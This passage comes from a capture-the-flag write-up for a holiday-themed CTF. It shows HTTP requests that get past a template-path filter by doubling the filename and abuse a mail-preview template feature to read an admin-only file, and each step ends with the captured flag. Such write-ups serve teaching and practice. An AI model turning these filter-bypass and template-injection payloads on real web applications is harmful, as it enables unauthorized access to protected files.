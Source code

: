 
```
GET /my-diary/?template=secretsecretadminadmin.php.phpadminadmin.php.php HTTP/1.1

...

<?php
if( $_SERVER["REMOTE_ADDR"] == '127.0.0.1' ){
?>

[...SNIP...]

flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}
```


# flag7 /hate-mail

Examining the mail preview function

```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com

preview_markup=%7B%7Btemplate%3Acbdj3_grinch_header.html%7D%7D&preview_data=%7B%22name%22%3A%22Alice%22%2C%22email%22%3A%22alice%40test.com%22%7D
```

our attention is immediately captured by that `{{template:file.html}}`. We begin tampering in search of some kind of LFI, but that only exposes the existance of a `templates/` subdirectory. Directory Index is enabled there, so we get to knwow about a particular file

	38dhs_admins_only_header.html

A simple GET of the file gives us forbidden and also tampering with the `preview_markup` parameter only gives us an error message:


```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
	preview_markup=%7B%7Btemplate%3A38dhs_admins_only_header.html%7D%7D&preview_data=%7B%22name%22%3A%22Alice%22%2C%22email%22%3A%22alice%40test.com%22%7D

...

You do not have access to the file 38dhs_admins_only_header.html
```

Key vulnerability here is that the `{{template:file}}` construction seems to have different validation if used with `preview_markup` or `preview_data` parameter

So if in `preview_markup` we define the `{{name}}` placeholder and try to get the file within this placeholder in `preview_data` we are able to access the admin file and obtain the flag:

```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com

preview_markup={{name}}&preview_data={"name"%3a"{{template%3a38dhs_admins_only_header.html}}","email"%3a"alice%40test.com"}

...
  <h4>flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}</h4>
```
